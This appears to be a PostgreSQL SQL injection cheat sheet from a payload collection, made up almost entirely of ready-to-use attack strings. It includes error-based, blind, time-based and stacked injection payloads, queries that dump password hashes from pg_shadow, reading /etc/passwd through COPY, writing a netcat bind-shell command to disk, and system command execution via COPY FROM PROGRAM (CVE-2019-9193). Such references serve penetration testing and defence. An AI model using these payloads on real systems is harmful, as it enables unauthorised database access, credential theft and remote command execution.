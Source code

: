 <h1>PostgreSQL injection</h1>

<h2>Summary</h2>

somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>



<h2>PostgreSQL Comments</h2>

```
--
/**/
```

<h2>PostgreSQL Version</h2>

```
SELECT version()
```

<h2>PostgreSQL Current User</h2>

```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

<h2>PostgreSQL List Users</h2>

```
SELECT usename FROM pg_user
```

<h2>PostgreSQL List Password Hashes</h2>

```
SELECT usename, passwd FROM pg_shadow 
```

<h2>PostgreSQL List Database Administrator Accounts</h2>

```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```

<h2>PostgreSQL List Privileges</h2>

```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

<h2>PostgreSQL Database Name</h2>

```
SELECT current_database()
```

<h2>PostgreSQL List Database</h2>

```
SELECT datname FROM pg_database
```

<h2>PostgreSQL List Tables</h2>

```
SELECT table_name FROM information_schema.tables
```

<h2>PostgreSQL List Columns</h2>

```
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

<h2>PostgreSQL Error Based</h2>

```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

<h2>PostgreSQL Blind</h2>

```
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

<h2>PostgreSQL Time Based</h2>

```
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

<h2>PostgreSQL Stacked Query</h2>

```
Use a semi-colon ";" to add another query
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

<h2>PostgreSQL File Read</h2>

```
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```
NOTE: ``pg_read_filedoesn't accept the/` character.
```
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

<h2>PostgreSQL File Write</h2>

```
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

<h2>PostgreSQL Command execution</h2>
<h3>CVE-2019–9193</h3>

Can be used from Metasploit if you have a direct access to the database, otherwise you need to execute manually the following SQL queries.

```
DROP TABLE IF EXISTS cmd_exec;          > -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); //-- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        //-- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 //-- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          //-- [Optional] Remove the table
```
